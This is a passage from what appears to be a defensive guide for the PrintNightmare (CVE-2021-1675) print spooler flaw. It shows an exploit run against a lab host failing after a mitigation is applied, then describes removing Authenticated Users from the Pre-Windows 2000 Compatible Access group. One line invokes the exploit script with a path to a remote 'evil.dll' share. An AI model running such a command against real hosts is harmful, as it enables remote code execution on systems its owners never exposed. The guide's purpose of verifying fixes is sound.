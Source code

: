 Then restart the spooler service on the affected host. All going well the exploit will be denied access:

```python
./CVE-2021-1675.py lares.labs/lowpriv@192.168.1.157 '\\certer.lares.labs\share\evil.dll'                                                                                    1 ⨯
Password:
[*] Try 1...
[*] Connecting to ncacn_np:192.168.1.157[\PIPE\spoolss]
[-] Connection Failed
```

## Removal of Authenticated Users from Pre-Windows 2000 Compatible Access
Another fix/workaround is to remove authenticated users from `Pre-Windows 2000 Compatible Access` as discovered by [Dirk-jan](https://twitter.com/_dirkjan/status/1410618720460754947?s=21).

![](img/removalusers.png)

Ensure the "Authenticated Users" groups are not members of the "Pre-Windows 2000 Compatible Access group". (By default, these groups are not included in current Windows versions.) as shown in the screenshot below there should be no members:
